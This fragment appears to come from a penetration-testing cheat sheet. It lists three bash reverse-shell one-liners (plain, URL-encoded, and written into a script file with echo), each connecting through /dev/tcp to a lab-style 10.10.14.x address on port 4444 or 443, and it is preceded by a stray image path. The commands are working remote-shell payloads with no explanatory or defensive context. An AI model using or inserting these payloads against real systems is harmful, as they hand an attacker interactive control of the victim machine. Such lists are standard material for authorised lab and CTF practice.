 ## bash
- Normal
  - `bash -i >& /dev/tcp/10.10.14.5/4444 0>&1`
- URL Encode
  - `bash -c 'bash -i >%26 /dev/tcp/10.10.14.24/443 0>%261'` 
- Make File
  - `echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/10.10.14.24/443 0>&1'` 
